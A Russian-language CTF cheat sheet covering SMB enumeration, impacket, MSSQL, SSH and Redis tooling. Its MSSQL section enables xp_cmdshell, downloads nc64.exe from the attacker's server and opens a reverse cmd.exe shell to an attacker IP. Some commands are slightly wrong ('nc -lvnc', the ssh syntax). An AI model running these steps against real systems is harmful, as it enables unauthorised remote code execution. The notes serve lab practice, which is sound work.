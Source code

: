 ## Введение 

> [[#SMB|1. SMB]]

## SMB
Протокол удалённого подключения к файловой системе и её управления на Windows. В рамка CTF и работы с уязвимостями на Linux используется утилита `smbmap`
### SMBMAP / SMBGET / SMBCLIENT
Допустим на хосте 10.10.1.2 на порту 139/tcp и 445/tcp работает SERVICE `netbios-ssn` VERSION `Samba smbd 3.x-4.x`:
1. `smbmap -H 10.10.1.2` - узнать подробнее о службе
2. ```
smbclient -N -L \\\\{TARGET_IP}\\ 
-N : No password 
-L : просмотр служб, которые есть на сервере

 3. чтобы войти к какую-то службу от корневой 
	 ```
	smbclient -N \\\\{TARGET_IP}\\<some share>
	```
4. `smbget -R smb://10.10.1.2/<Disk>` - скачать доступный ресурс рекурсивно
### impacket
Impacket представляет собой коллекцию классов Python для работы с сетевыми протоколами. Impacket ориентирован на обеспечение низкоуровневого программного доступа к пакетам, а для некоторых протоколов (например, SMB1-3 и MSRPC) — на саму реализацию протокола. Пакеты могут быть сконструированы с нуля, а также разобраны из необработанных данных, а объектно-ориентированный API упрощает работу с глубокими иерархиями протоколов. Библиотека предоставляет набор инструментов в качестве примеров того, что можно сделать в контексте этой библиотеки.
```
git clone https://github.com/SecureAuthCorp/impacket.git
cd impacket
pip3 install .
# OR:
sudo python3 setup.py install
# In case you are missing some modules:
pip3 install -r requirements.txt
```
Теперь мы готовы узнать об использовании инструмента и, в частности, mssqlclient.py скрипта.
```
cd impacket/examples/
python3 mssqlclient.py -h
```
Пример подключения к **MSSQL**:
```
python3 mssqlclient.py ARCHETYPE/sql_svc@{TARGET_IP} -windows-auth
```
где `-windows-auth` - флаг указан для использования проверки подлинности Windows
Для взлома MSSQL полезен ресурс: [MSSQL Injection Cheat Sheet | pentestmonkey](https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)
Например благодаря нему можно использовать следующие команды для получения доступа к windows машине:
``` 
EXEC xp_cmdshell 'net user';
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;

У себя:
python -m http.server 80
nc -lvnc 443

Снова в MSSQL:
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://<my python IP>/nc64.exe -outfile nc64.exe"

xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe <my nc IP> 443"
```
Пример подключения к машине windows (из соответствующей папки impacket):
```
python3 psexec.py <login>@{TARGET_IP}
```
## SSH
чтобы подключиться:
``` 
ssh <login>:<ip adress> -p <port>
```
## REDIS
in-memory database. Для взаимодействия используется утилита `redis-cli`
пример:
```bush
redis-cli -h <hostname> #подключение к хосту

info # получить информацию находясь на хосте

SELECT <> # выбрать данные, например SELECT 0 - узнать ключи под индексом 0

keys * # узнать, какие ключи есть в БД

get <key> # получить значение ключа <key>

```

